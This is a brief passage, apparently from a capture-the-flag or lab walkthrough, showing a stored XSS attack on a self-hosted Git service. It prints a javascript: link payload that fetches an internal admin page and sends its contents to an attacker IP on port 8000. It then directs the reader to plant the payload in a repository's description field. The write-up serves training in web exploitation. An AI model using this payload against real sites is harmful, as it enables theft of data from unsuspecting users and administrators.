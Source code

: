 ```js
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(response => response.text()).then(data => fetch('http://10.10.15.39:8000/?response=' + encodeURIComponent(data))).catch(error => console.error('Error:', error));">XSS test</a>
```

In order to make this work, we need to create a repository:

![Pasted image 20250416130652.png](../../IMAGES/Pasted%20image%2020250416130652.png)

And we need to use the payload at the `description` field:
